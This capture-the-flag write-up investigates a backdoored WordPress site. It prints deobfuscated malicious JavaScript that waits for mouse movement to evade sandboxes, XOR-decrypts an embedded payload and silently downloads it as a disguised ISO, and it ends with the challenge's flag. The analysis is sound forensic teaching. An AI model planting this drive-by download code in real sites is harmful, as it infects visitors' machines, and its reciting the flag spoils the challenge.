# Fake News

## Scenario

The Magic Informer is our school's newspaper. Our system administrator and teacher, Nick, maintain it. But according to him, his credentials leaked while sharing his screen to present on a course. It is believed that Dark Pointy Hats got access to the Magic Informer, which they use to host their phishing campaign for freshmen people. Given the root folder of the Magic Informer, can you investigate what happened?

## Given artefacts

We are given the whole html folder of a website pretending to be WordPress

## Initial Inspection

At first stage, I spend around 20 minutes trying in vain to manually find some anomalies in the whole folder. But then I realize that this is not feasible at all, my mind shifts to a more systematic way: compare this with the real WordPress source code.



From this `version.php`, I know the version is 6.1.1, therefore I go to WordPress's official page and download its source. Then I run `diff` on them to find anomalies, the time taken is quite long:



Here are the results, let's inspect all of them



One of them yields a suspicious flag, `eval()` is an evil function in JS, it treats the anything inside it as JS code and execute it, I take the massive base64 string to cyberchef:











This script sets up a revershell connecting back to the attacker's server, I won't put more explantion here as the comments in the code alraedy clarify each of its part. Note that we also get the first piece of the flag here. 

Continue exploring the difference returned by `diff`, I see another red flag:



This javascript function is heavily obfuscated, so I put it to deobfuscator.io to get a more readable version:

```javascript
function base64ToArrayBuffer(_0x501839) {
  var _0x41a59e = window.atob(_0x501839);  //decode that base64 string
  var _0x4612ce = _0x41a59e.length;  //length of that string
  var _0x29b7e1 = new Uint8Array(_0x4612ce);  // a new array with that length
  for (var _0x10c9ec = 0x0; _0x10c9ec < _0x4612ce; _0x10c9ec++) {
    _0x29b7e1[_0x10c9ec] = _0x41a59e.charCodeAt(_0x10c9ec);
  }   //fill the array with content of that decoded string
  return _0x29b7e1;
}
function itstime(_0x29f294, _0x2c4b0e) {
  var _0x3590d8 = new Uint8Array(_0x29f294);  // create a new array with length arg1
  for (var _0x57ba00 = 0x0; _0x57ba00 < _0x3590d8.length; _0x57ba00++) {
    k = _0x2c4b0e[_0x57ba00 % _0x2c4b0e.length];
    _0x3590d8[_0x57ba00] = _0x3590d8[_0x57ba00] ^ k.charCodeAt(0x0);  //xor arg1 with arg2, wrap around if length arg2 is shorter
  }
  return _0x3590d8;
}
var done = false;
(function () {
  window.onmousemove = function (_0x10f306) {
    if (!done) {
      var _0x509442 = '';
      var _0x509442 = "(redacted as it is too long)";
      var _0x2442a7 = base64ToArrayBuffer(_0x509442);
      var _0x195351 = itstime(_0x2442a7, "FlKLoA2q6A4UlkGFSjQh1gYJOEnD");
      console.log(_0x2442a7);
      console.log(_0x195351);
      var _0x38a512 = new Blob([_0x195351], {
        'type': "None"
      });
      var _0x562ab3 = document.createElement('a');
      document.body.appendChild(_0x562ab3);
      _0x562ab3.style = "display: none";
      var _0x324272 = window.URL.createObjectURL(_0x38a512);
      console.log(_0x38a512);
      _0x562ab3.href = _0x324272;
      _0x562ab3.download = "official_invitation.iso";
      _0x562ab3.click();
      done = true;
    }
  };
})();
```

I already leave inline comment to explain the helper function, now let's break down the main one:
- First, it's worth noticing that the script does not execute immediately when the page loads. It waits until the user moves their mouse. This is a common sandbox evasion technique. Automated security scanners and sandboxes often load a page and wait to see what happens, but they do not always simulate human mouse movements. By waiting for a mouse move, the malware ensures a real human is looking at the page before deploying the payload.
- Once the mouse moves, the massive base64 string, which I have removed from the code to keep this wirte-up readable, is loaded to the first helper function to convert it to an array of binary bytes, then XORed with the hard-coded key, revealing the original binary file.
- new Blob(...): The script takes the decrypted binary data and creates a "Blob" (Binary Large Object) inside the browser's memory.
- createObjectURL(...): It generates a temporary, local URL that points directly to that Blob in memory (it usually looks something like `blob:https://example.com/uuid)`
- The Fake Link: It creates an invisible `<a> (anchor/link) tag in the background.`
- download = ...: It uses the HTML5 download attribute, telling the browser, "When this link is clicked, do not navigate to it; download it and name it official_invitation.iso."
- .click(): The JavaScript programmatically "clicks" the invisible link on behalf of the user.

I will reverse that process to recover the .iso file:





My way was a bit redundant, I save the cyberchef output to a file then use python to handle the XOR, while I can do all of them directly in cyberchef. So we got the .iso file, let's decompress it:



Inside that is an executable, we may use ghidra to thoroughly inspect it, or simply fire `strings` on it to get the second part of the flag:



`Flag: HTB{C0m3_0n_1t_w4s_t00_g00d_t0_b3_tru3}`